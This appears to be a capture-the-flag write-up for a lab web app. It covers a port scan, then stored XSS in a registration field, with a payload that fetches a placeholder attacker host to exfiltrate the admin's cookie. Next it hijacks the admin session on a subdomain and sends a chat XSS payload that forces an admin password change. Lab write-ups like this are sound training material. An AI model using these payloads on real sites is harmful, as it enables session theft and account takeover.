





# What's your name?

## Recon

First, add `worldwap.thm` to `/etc/hosts` file.

Nmap Scan:

```
sudo nmap -sS -T5 -p- 10.10.33.46
PORT      STATE    SERVICE
22/tcp    open     ssh
80/tcp    open     http
2651/tcp  filtered ebinsite
8081/tcp  open     blackice-icecap
32617/tcp filtered unknown
33249/tcp filtered unknown
56856/tcp filtered unknown
```

After visitng domain, we see a website with url `http://worldwap.thm/public/html`



Gobuster on this url:

```
/.php                 (Status: 403) [Size: 277]
/index.php            (Status: 200) [Size: 1797]
/login.php            (Status: 200) [Size: 1785]
/register.php         (Status: 200) [Size: 2188]
/admin.php            (Status: 403) [Size: 0]
/upload.php           (Status: 403) [Size: 0]
/logout.php           (Status: 200) [Size: 154]
/mod.php              (Status: 403) [Size: 0]
/dashboard.php        (Status: 403) [Size: 0]
```

## XSS Payload and stealing cookie

We can register new user, there is also info "Your details will be reviewed by the site moderator." Also, the site has very unsecure cookies with parameter `Domain` set to `.worldwap.thm`.

We can try to inject simple XSS payload, which will connect to our server and possibly sent to us admins session cookie. We will inject it into "Name" field, the rest doesn't matter that much.

Here is the payload:

```html
<script>fetch('http://Your_IP?cookie='+btoa(document.cookie));</script>
```

Before registring our user, set a python server to listen for incoming connections:

```
python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.33.46 - - [07/May/2025 11:56:03] "GET /?cookie=UEhQU0VTU0lEPTVwM2xhYW9mZXZ0aXJlNWpwZHZ1YnB2a29h HTTP/1.1" 200 -

```

...and inject the payload. There we go, we have admins cookie. But before stealing his session, let's check our website.

After injecting we see page `login.php`:



I discovers to us a new subdomain `login.worldwap.thm`. It seems that we can't login here, as it says: "User not verified." But now we have another domain, so let's add new entry to `/etc/hosts` and jump here.

## Admin session on new subdomain

Main page is empty, but in soucre code is a comment:

```html
<!-- login.php should be updated by Monday for proper redirection -->
```

Change url to `http://login.worldwap.thm/login.php` and try to login with created user. We have error saying "Invalid username or password.". But previously we gathered admins cookie, let's encode it from base64:



Also remember how parameter doamin is set to `.worldwap.thm`? The cookie may be valid for discovered subdomain, so replace it here and refresh `login.worldwap.thm` page. We should land on `profile.php` page which contains first flag:



## XSS in chat functionality

In navbar we can navigate to two other pages: `change_password.php` and `chat.php`. Let's check first, we can change a password providing only a new one? Capture request with burp suite:



Yes, we send only one parameter, but after sending it we git message "This feature is under development and works only if you are logged in as an admin.", so we cant really reset admins password.

Let's check `chat.php` page. Straight away provide bad message like `<script>alert(1)</script>`. We got alert, so chat is also vulnerable to XSS. We can chat with someone called "Admin Bot", so maybe he is constantly reading those messages and is our admin. But first, click "Reset/Move Admin Bot to chat.php page" so he is online. Use another payload, but this time we want to make admin change his password. 

The payload looks like this:

```
<script>fetch('http://login.worldwap.thm/change_password.php', {method: 'POST', headers: {'Content-Type': 'application/x-www-form-urlencoded'}, body: 'new_password=newpassword123'});</script>
```

Wait a bit and logout from the page. Now try to use password we provided and login as admin with password provided in payload. We should be able to login as admin and get second flag.